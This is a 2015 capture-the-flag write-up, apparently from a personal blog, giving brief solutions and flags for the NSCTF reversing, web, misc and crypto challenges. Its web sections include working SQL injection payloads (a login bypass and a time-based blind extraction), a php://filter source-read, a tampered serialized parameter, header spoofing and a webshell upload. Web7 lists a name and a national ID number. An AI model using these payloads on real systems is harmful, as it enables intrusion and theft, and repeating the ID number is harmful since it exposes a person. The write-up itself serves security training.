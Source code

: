 ```yaml
---
title: nsctf2015-writeup
pubDatetime: 2015-10-13 00:45:04 +08:00
tags:
  - ctf
description: Already Archive Before 20230604
postSlug: archive_nsctf2015_writeup
---
```


### re1

    ASCII找到flag:{NSCTF_md5065ca>01??ab7e0f4>>a701c>cd17340}
    异或0x7
    712df97688fe0b7a399f076d9dc60437

### re2

    找字符串
    flag:{NSCTF_md57e0cad17016b0>?45?f7c>0>4a>1c3a0}
    异或0x7
    NSCTF_md50b7dfc60761e798328a0d9793f96d4f7

###re500
pyc 逆字节码运行 getflag5()即可
flag:{NSCTF_md576d958d8a8640dfe2ada4811aef59b26}

### web1

    index.php
    flag:{NSCTF_1E72F25BA71580D7D7DDBD25ACF4A8F3}

### web2

    Referer: http://www.nsctf.net/
    X-Forwarded-For: 101.200.73.168

    Wm14aFp6cDdUbE5EVkVaZk5EZzRZamRoTW1SalkyUXdNbUUzTXpReE5qVmpNemxpWVRRMU1UZGtZ
    ZmxhZzp7TlNDVEZfNDg4YjdhMmRjY2QwMmE3MzQxNjVjMzliYTQ1MTdkYmN9
    flag:{NSCTF_488b7a2dccd02a734165c39ba4517dbc}

### web3

    key和ver都是5.5.9-1ubuntu4.12
    NjY2YzYxNjczYTdiNGU1MzQzNTQ0NjVmMzY2MzM3Mzk2NTM5NjIzMzM2NjMzMDM4NjIzMDMwMzAzMzM1MzIzODM3NjEzODM4NjMzNjYzNjE2MjM5MzA2Njdk
    666c61673a7b4e534354465f36633739653962333663303862303030333532383761383863366361623930667d
    flag:{NSCTF_6c79e9b36c08b00035287a88c6cab90f}

### web4

    找到password.txt
    username=admin&password=Nsf0cuS
    290bca70c7dae93db6644fa00b9d83b9.php
    本来看到以为是xss,结果直接改userlevel=root就好

    flag={NSCTF_76b44eac527ad5c8789f5d2e0f1ede9a}

### web5

    rot13,逆序,base64,移位,逆序
    flag:{NSCTF_b73d5adfb819c64603d7237fa0d52977}

### web6

    改if里面的==为=号直接输出用户名密码
    G0od!JAVA3C41PTISAGO 1pt_Pa4sW0rd_K3y_H3re
    登陆后给出base64 解密 key_Ch3ck_.txt
    继续 Ch3ck_Au7h.php
    检查作者
    uname,upass提交
    flag:{NSCTF_d7590edfdf8bcf958ced10cec94273a}

### web7

    Xiaoming09231995
    开房记录 王伟   身份证号34112519831224875X

    flag:{NSCTF_3ad65730a8f203a5ab861169e9547f6d}

### web08

    php://filter/read=convert.base64-encode/resource=index.php
    flag:{NSCTF_9bac7a6e289bf89ee0061bd0abdef0ab}

### web09

    base64(md5(20150923)),id=3

    /.index.php.swp
    审计
    	http://www.nsctf.net:8000/fa81bb665474f11c025b5355582af315/web/09/changepassword.php?userInfo=a:2:{s:2:"id";s:1:"1";s:4:"pass";s:8:"20150923";}&oldPass=20150923&newPass=6666
    flag:{NSCTF_98c5bf58e35877fc76ce03f0f01327c5}

### web10

    源码:http://www.nsctf.net:8000/fa81bb665474f11c025b5355582af315/web/10/index.php.
    先_CONFIG=1取消掉config,注释sql
    	password=/*!OR*/%1=1%23&username=\&Submit=%E6%8F%90%E4%BA%A4&_CONFIG=1
    	flag:{NSCTF_adf0ff1eb152b1e3398ba4523fc713f}

### web11

    可上传php5
    暴力上传生成小马,index.php里面发现flag
    flag{NSCTF_8f0fc74ddf786103ed56d20af3bf269}

### web12

    时间盲注 payload
    字段flag
    	sexlect(ord(substr((SELExCT(group_concat(column_name))FROM(information_schema.columns)WHERE(table_name)%2513%2527flag%2527),1,1)))>1
    内容
    	username=admin%2527and(selexct(selxect(slexep(5))and(selecxt(ord(substr((selexct(flag)from(flag)),12,1))>13))))%23&filtername=x&Submit=%E6%8F%90%E4%BA$A4
    flag:{NSCTF_98c5bf58e35877fc76ce03f0f01327c5}

### Misc1

    md5 nsfocous666

### Misc2

    提取出来key.rar 密码是nsfocous+5数字 爆破之
    nsfocous56317

    flag{NCTF_R4r_Cr4ck}

### Misc3

    主要是三个段 消费 初始 余额  确保两个等式正确 算一下就行 每1.8是B4
    flag{NSCTF_RfID_Cr4ck}

### Crypto

    直接AES解密 flag{DISJV_Hej_UdShofjyed}
    凯撒
    NSCTF_Rot_EnCryption

### Crypto2

    分离图片,第二个就是flag
    flag{NSCTF_e6532a34928a3d1dadd0b049d5a3cc57}

### Crypto3

    stegslove: blue0 反选 flag{NSCTF_Qr_C0De}
